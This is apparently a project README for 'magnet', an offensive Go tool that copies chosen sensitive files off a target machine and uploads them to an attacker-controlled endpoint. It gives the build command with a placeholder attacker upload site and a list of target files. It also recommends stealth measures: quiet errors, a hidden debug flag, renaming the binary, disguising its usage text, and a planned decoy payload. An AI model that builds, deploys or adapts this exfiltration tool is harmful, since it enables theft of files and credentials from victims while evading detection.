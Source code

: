 <div align=center>
  <h1>magnet</h1>
  <pre>🧲⚡
  <strong>Grab interesting files from remote</strong><br>
  All the job is done at compilation time</pre>
</div>



## Usage

**At compilation time** you need to specify:
* ***The remote endpoint***, where juicy files are uploaded
* ***The Juicy files***, list of files you want to grab. (File are separated by a comma `,`)
* ***The target os***, to fit the target (between: `windows`, `darwin`, `linux`

So the compilation line looks like this:
```shell
export FILES=$(cat samples/linux_juicy_files.txt)
export ENDPOINT=http://[ATTACKER_UPLOAD_SITE]
GOOS=linux GOARCH=amd64 go build -ldflags "-X main.FileList=$FILES -X main.Endpoint=$ENDPOINT" magnet.go
```

Then on target machine:
```shell
./magnet #or magnet.exe
```

### Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario
  * rename `magnet` executable

## To do

* Include a fake payload that will also be run to fake an attacking scenario (example update, etc)
* Handle directories
